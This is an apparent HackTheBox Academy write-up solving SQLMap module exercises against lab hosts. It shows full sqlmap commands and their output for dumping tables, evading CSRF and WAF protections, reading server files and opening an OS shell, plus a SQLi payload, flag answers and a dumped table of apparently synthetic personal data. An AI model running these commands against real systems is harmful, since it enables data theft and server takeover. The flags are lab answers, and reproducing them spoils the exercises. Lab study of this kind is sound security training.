

# [SQLMap Essentials](https://academy.hackthebox.com/module/details/58)

## Exercise - Running SQLMap on an HTTP Request

### Questions

#### Question #01

**Question**

 What's the contents of table `flag2`? (Case #2)



```
--banner --current-user --current-db --is-dba


┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case2.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/case2.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://83.136.250.20:40656' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --data-raw 'id=1*' --batch --dump

[SNIP]

[04:58:59] [INFO] table 'testdb.users' dumped to CSV file '/home/htb-ac-1461567/.local/share/sqlmap/output/83.136.250.20/dump/testdb/users.csv'
[04:58:59] [INFO] fetching columns for table 'flag2' in database 'testdb'
[04:58:59] [INFO] fetching entries for table 'flag2' in database 'testdb'
Database: testdb
Table: flag2
[1 entry]
+----+----------------------------------------+
| id | content                                |
+----+----------------------------------------+
| 1  | HTB{700_much_c0n6r475_0n_p057_r3qu357} |
+----+----------------------------------------+

[SNIP]
```

**Answer**

```
HTB{700_much_c0n6r475_0n_p057_r3qu357
```

#### Question #02

**Question**

 What's the contents of table `flag3`? (Case #3)


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case3.php' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: id=1*' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --dump

[SNIP]

[04:42:29] [INFO] table 'testdb.users' dumped to CSV file '/home/htb-ac-1461567/.local/share/sqlmap/output/83.136.250.20/dump/testdb/users.csv'
[04:42:29] [INFO] fetching columns for table 'flag3' in database 'testdb'
[04:42:29] [INFO] fetching entries for table 'flag3' in database 'testdb'
Database: testdb
Table: flag3
[1 entry]
+----+------------------------------------------+
| id | content                                  |
+----+------------------------------------------+
| 1  | HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475} |
+----+------------------------------------------+

[SNIP]
```

**Answer**

```
HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}
```

#### Question #03

**Question**

 What's the contents of table `flag4`? (Case #4)


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case4.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/case4.php' -H 'Content-Type: application/json' -H 'Origin: http://83.136.250.20:40656' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' --data-raw '{"id":1*}' --batch --dump

[SNIP]

[04:50:37] [INFO] table 'testdb.users' dumped to CSV file '/home/htb-ac-1461567/.local/share/sqlmap/output/83.136.250.20/dump/testdb/users.csv'
[04:50:37] [INFO] fetching columns for table 'flag4' in database 'testdb'
[04:50:37] [INFO] fetching entries for table 'flag4' in database 'testdb'
Database: testdb
Table: flag4
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{j450n_v00rh335_53nd5_6r475} |
+----+---------------------------------+

[SNIP]
```

**Answer**

```
HTB{j450n_v00rh335_53nd5_6r475}
```

---

## Exercise - Attack Tuning

### Questions

#### Question #04

**Question**

What's the contents of table `flag5`? (Case #5)

Hint: You can use the option `-T flag5` to only dump data from the needed table. You can use the `--no-cast` flag to ensure you get the correct content. You may also, try running the command a few times to ensure you captured the content correctly.


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case5.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/case5.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --dump

[SNIP]

[05:35:29] [WARNING] URI parameter '#1*' does not seem to be injectable
[05:35:29] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
❌

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://83.136.250.20:40656/case5.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://83.136.250.20:40656/case5.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -T flag5 --dump --no-cast --level 3

[SNIP]

Database: testdb
Table: flag5
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{700_much_r15k_bu7_w0r7h_17} |
+----+---------------------------------+

[SNIP]
```

**Answer**

```
HTB{700_much_r15k_bu7_w0r7h_17}
```

#### Question #05

**Question**

What's the contents of table `flag6`? (Case #6)

Hint: Use the prefix ``)`.


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case6.php?col=id' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case6.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -T flag6 --dump --no-cast --prefix='`)'

[SNIP]

[09:14:45] [INFO] fetching current database
[09:14:45] [INFO] fetching columns for table 'flag6' in database 'testdb'
[09:14:45] [INFO] fetching entries for table 'flag6' in database 'testdb'
Database: testdb
Table: flag6
[1 entry]
+----+----------------------------------+
| id | content                          |
+----+----------------------------------+
| 1  | HTB{v1nc3_mcm4h0n_15_4570n15h3d} |
+----+----------------------------------+

[SNIP]
```

**Answer**

```
HTB{v1nc3_mcm4h0n_15_4570n15h3d}
```

#### Question #06

**Question**

What's the contents of table `flag7`? (Case #7)

Hint: Try to count the number of columns in the page output, and specify them for sqlmap.


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case7.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case7.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -T flag7 --dump --no-cast --union-cols=5

[SNIP]

[09:09:29] [INFO] fetching current database
[09:09:29] [INFO] fetching columns for table 'flag7' in database 'testdb'
[09:09:29] [INFO] fetching entries for table 'flag7' in database 'testdb'
Database: testdb
Table: flag7
[1 entry]
+----+-----------------------+
| id | content               |
+----+-----------------------+
| 1  | HTB{un173_7h3_un173d} |
+----+-----------------------+

[SNIP]
```

**Answer**

```
HTB{un173_7h3_un173d}
```

---

## Exercise - Database Enumeration

### Questions

#### Question #07

**Question**

What's the contents of table `flag1` in the `testdb` database? (Case #1)


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -D testdb -T flag1 --dump --no-cast

[SNIP]

[06:18:15] [INFO] fetching columns for table 'flag1' in database 'testdb'
[06:18:15] [INFO] fetching entries for table 'flag1' in database 'testdb'
Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
+----+-----------------------------------------------------+

[SNIP]
```

**Answer**

```
HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}
```

---

## Exercise - Advanced Database Enumeration

### Questions

#### Question #08

**Question**

What's the name of the column containing "style" in it's name? (Case #1)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --search -C style

[SNIP]

[06:22:52] [INFO] searching columns LIKE 'style' across all databases
[06:22:52] [WARNING] potential permission problems detected ('command denied')
[06:22:52] [INFO] fetching columns LIKE 'style' for table 'ROUTINES' in database 'information_schema'
columns LIKE 'style' were found in the following databases:
Database: information_schema
Table: ROUTINES
[1 column]
+-----------------+------------+
| Column          | Type       |
+-----------------+------------+
| PARAMETER_STYLE | varchar(8) |
+-----------------+------------+

[SNIP]
```

**Answer**

```
PARAMETER_STYLE
```

#### Question #09

**Question**

What's the Kimberly user's password? (Case #1)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --search -C pass

[SNIP]

Database: testdb                                                                                                                                      
Table: users
[32 entries]
+-------------------------------------------------------------+
| password                                                    |
+-------------------------------------------------------------+
| 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             |
| 10946aa229a6d569f226976b22ea0e900a1fc219                    |

[SNIP]

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -D testdb -T users --dump

[SNIP]

Database: testdb
Table: users
[32 entries]
+----+------------------+-----------------------------+--------------+-------------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | email                       | phone        | name              | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-----------------------------+--------------+-------------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+

[SNIP]

| 6  | 5143241665092174 | KimberlyMWright@gmail.com   | 440-232-3739 | Kimberly Wright   | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -D testdb -T users -passwords --dump

[SNIP]

Database: testdb
Table: users
[32 entries]
+----+------------------+-----------------------------+--------------+-------------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | email                       | phone        | name              | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-----------------------------+--------------+-------------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+

[SNIP]

| 6  | 5143241665092174 | KimberlyMWright@gmail.com   | 440-232-3739 | Kimberly Wright   | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |

[SNIP]
```

**Answer**

```
Enizoom1609
```

---

## Exercise - Bypassing Web Application Protections

### Questions

#### Question #10

**Question**

What's the contents of table `flag8`? (Case #8)


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case8.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case8.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.48.226:59004' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --data-raw 'id=1*&t0ken=KGoByMKyROxW8RQLEXzYKQjtkFBsOCDlZiCtgZUzQ' --batch -T flag8 --dump --no-cast --csrf-token='t0ken'

[SNIP]

[08:41:47] [INFO] fetching current database
[08:41:47] [INFO] fetching columns for table 'flag8' in database 'testdb'
[08:41:47] [INFO] fetching entries for table 'flag8' in database 'testdb'
Database: testdb
Table: flag8
[1 entry]
+----+-----------------------------------+
| id | content                           |
+----+-----------------------------------+
| 1  | HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} |
+----+-----------------------------------+

[SNIP]
```

**Answer**

```
HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}
```

#### Question #11

**Question**

What's the contents of table `flag9`? (Case #9)


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case9.php?id=1*&uid=1531459971' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case9.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -T flag9 --dump --no-cast --randomize='uid'

[SNIP]

[08:45:51] [INFO] fetching current database
[08:45:51] [INFO] fetching columns for table 'flag9' in database 'testdb'
[08:45:52] [INFO] fetching entries for table 'flag9' in database 'testdb'
Database: testdb
Table: flag9
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r4nd0mn355_f0r_my_74573} |
+----+---------------------------------------+

[SNIP]
```

**Answer**

```
HTB{700_much_r4nd0mn355_f0r_my_74573}
```

#### Question #12

**Question**

What's the contents of table `flag10`? (Case #10)


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case10.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case10.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.48.226:59004' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --data-raw 'id=1*' --batch -T flag10 --dump --no-cast --tamper=randomcase

[SNIP]

[08:54:16] [INFO] fetching current database
[08:54:16] [INFO] fetching columns for table 'flag10' in database 'testdb'
[08:54:16] [INFO] fetching entries for table 'flag10' in database 'testdb'
Database: testdb
Table: flag10
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{y37_4n07h3r_r4nd0m1z3} |
+----+----------------------------+

[SNIP]
```

**Answer**

```
HTB{y37_4n07h3r_r4nd0m1z3}
```

#### Question #13

**Question**

What's the contents of table `flag11`? (Case #11)


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case11.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case11.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --data-raw 'id=1*' --batch -T flag11 --dump --no-cast --tamper=greatest,least --threads=10

[SNIP]

Database: testdb
Table: flag11
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{5p3c14l_ch4r5_n0_m0r3} |
+----+----------------------------+

[SNIP]
```

**Answer**

```
HTB{5p3c14l_ch4r5_n0_m0r3}
```

---

## Exercise - OS Exploitation

#### Question #14

**Question**

Try to use SQLMap to read the file `/var/www/html/flag.txt`.


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ sqlmap 'http://94.237.59.168:58202/?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.59.168:58202/' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --is-dba

[SNIP]

[06:46:40] [INFO] testing if current user is DBA
[06:46:40] [INFO] fetching current user
current user is DBA: True

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ sqlmap 'http://94.237.59.168:58202/?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.59.168:58202/' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --file-read '/var/www/html/flag.txt'

[SNIP]

[06:50:31] [INFO] fetching file: '/var/www/html/flag.txt'

[SNIP]

[06:50:31] [INFO] the local file '/home/htb-ac-1461567/.local/share/sqlmap/output/94.237.59.168/files/_var_www_html_flag.txt' and the remote file '/var/www/html/flag.txt' have the same size (31 B)
files saved to [1]:
[*] /home/htb-ac-1461567/.local/share/sqlmap/output/94.237.59.168/files/_var_www_html_flag.txt (same file)

[SNIP]

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ cat '/home/htb-ac-1461567/.local/share/sqlmap/output/94.237.59.168/files/_var_www_html_flag.txt'

HTB{5up3r_u53r5_4r3_p0w3rful!}
```

**Answer**

```
HTB{5up3r_u53r5_4r3_p0w3rful!}
```

#### Question #15

**Question**

Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-s3yszxz6oh]─[~]
└──╼ [★]$ sqlmap 'http://94.237.59.168:58202/?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.59.168:58202/' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --os-shell

[SNIP]

[06:54:12] [INFO] fingerprinting the back-end DBMS operating system
[06:54:12] [INFO] the back-end DBMS operating system is Linux
[06:54:12] [INFO] testing if current user is DBA
[06:54:12] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 1

[SNIP]

os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

os-shell> find / -iname 'flag.txt' 2> /dev/null
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
/flag.txt

os-shell> cat /flag.txt
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'HTB{n3v3r_run_db_45_db4}'
```

**Answer**

```
HTB{n3v3r_run_db_45_db4}
```

---
---

## Skills Assessment

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

### Questions

#### Question #01

**Question**

What's the contents of table `final_flag`?


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ vim addtochart.req

POST /action.php HTTP/1.1
Host: 94.237.48.226:41007
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.48.226:41007/shop.html
Content-Type: application/json
Content-Length: 8
Origin: http://94.237.48.226:41007
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s
Sec-GPC: 1
Priority: u=0

{"id":1}
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req --batch -p id

[SNIP]

sqlmap identified the following injection point(s) with a total of 2203 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 6337 FROM (SELECT(SLEEP(5)))QZRA)"}
---

[SNIP]

[09:49:25] [INFO] the back-end DBMS is MySQL

web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

[SNIP]

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req --batch -p id --banner --dbs

[SNIP]

[09:50:35] [INFO] fetching banner
[09:50:35] [INFO] retrieved: 
[09:50:35] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[09:50:35] [INFO] fetching database names
[09:50:35] [INFO] fetching number of databases
[09:50:35] [INFO] retrieved: 
[09:50:35] [ERROR] unable to retrieve the number of databases
[09:50:35] [INFO] falling back to current database
[09:50:35] [INFO] fetching current database
[09:50:35] [INFO] retrieved: 
[09:50:35] [CRITICAL] unable to retrieve the database names
❌

[SNIP]

